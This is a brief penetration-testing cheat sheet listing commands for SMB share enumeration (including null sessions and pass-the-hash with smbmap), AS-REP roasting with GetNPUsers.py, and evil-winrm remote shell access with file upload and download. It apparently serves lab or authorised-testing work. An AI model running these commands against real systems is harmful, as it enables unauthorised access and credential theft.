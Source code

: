 ### [SMB Enumeration p445]
SMBClient
```
Smbclient //ipaddress/share
```
Null Session
```
smbclient -N //IP/Sub
```
SMBv2 Mode
```
smbclient -m SMB2 '//ipaddress/c$/path/to/share' -W <WORKSTATION> -U <username>
```

smbmap commands
```
Smbmap -H <ipaddress>
```
```
Smbmap -H <ipaddress> -u <username>
```
```
Smbmap -H <ipaddress> -u <username> -R
```
```
Smbmap -u <username> -d <domain> -p 'password' -H <ipaddress>
```
```
smbmap -u <username> -p <hash> -H <ipaddress>
```

Enum4linux
```
enum4linux -a IP
```

smbcacls
```
smbcacls -N '//IP/Sub' /Users
```

### [Kerberos Enumeration p88]
```
GetNPUsers.py WORKSTATION/ -dc-ip IP -usersfile /path/to/userslist
GetNPUsers.py NAME.LOCAL/ -dc-ip IP -usersfile /path/to/userslist
```
resources:

https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
### [Windows Remote Management WinRM p5985]
```
ruby evil-winrm.rb -i IP -u username -p 'password' -s '/path/to/scripts/' -e '/path/to/exes/'
```
Download / Upload
```
upload local_filename
download remote_filename
```
